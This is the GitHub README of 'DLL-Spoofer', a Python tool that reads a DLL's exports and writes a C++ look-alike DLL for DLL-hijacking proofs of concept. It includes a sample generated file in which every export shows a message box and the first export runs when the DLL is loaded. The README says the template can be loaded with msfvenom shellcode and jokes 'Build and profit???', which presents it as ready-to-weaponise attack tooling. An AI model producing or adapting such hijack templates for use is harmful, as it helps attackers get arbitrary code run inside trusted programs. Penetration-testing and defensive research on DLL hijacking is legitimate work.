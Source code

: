 # DLL-Spoofer 
This python script scans a provided DLL's exports and creates a basic duplicate CPP DLL template. All exported functions are re-used and pop a simple message window. 
Additionally on DLL attach we execute the first exported function. This is useful for simple providing POC for DLL hijacking since we're not duping function arguements. 

This can easily be used to execute shellcode generated via msfvenom. Just replace the first function in the output template. 


# Usage

``` python3 spoof.py
usage: spoof.py [-h] dll_path

Generate a C++ source file for a DLL that displays MessageBox for exported functions.

positional arguments:
  dll_path    Path to the DLL to inspect and create the C++ source for.

optional arguments:
  -h, --help  show this help message and exit

```

## Simply create a CPP DLL project, copy and paste the output file from the script. Build and profit???

Always appreciate a shout out in research if you use this! 

# Example 
python .\spoof.py .\StateRepository.Core\StateRepository.Core.dll

--> ExportedFunctions.cpp
```
// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <windows.h>

extern "C" {

__declspec(dllexport) void sqlite3_aggregate_context() {
    MessageBox(NULL, L"sqlite3_aggregate_context called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_aggregate_count() {
    MessageBox(NULL, L"sqlite3_aggregate_count called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_auto_extension() {
    MessageBox(NULL, L"sqlite3_auto_extension called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_backup_finish() {
    MessageBox(NULL, L"sqlite3_backup_finish called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_backup_init() {
    MessageBox(NULL, L"sqlite3_backup_init called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_backup_pagecount() {
    MessageBox(NULL, L"sqlite3_backup_pagecount called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_backup_remaining() {
    MessageBox(NULL, L"sqlite3_backup_remaining called", L"Function Call", MB_OK);
}

..... 
..... 
..... //Snipped like 30 other functions for example

__declspec(dllexport) void sqlite3_win32_utf8_to_mbcs_v2() {
    MessageBox(NULL, L"sqlite3_win32_utf8_to_mbcs_v2 called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_win32_utf8_to_unicode() {
    MessageBox(NULL, L"sqlite3_win32_utf8_to_unicode called", L"Function Call", MB_OK);
}

__declspec(dllexport) void sqlite3_win32_write_debug() {
    MessageBox(NULL, L"sqlite3_win32_write_debug called", L"Function Call", MB_OK);
}

}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
		sqlite3_aggregate_context();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

```
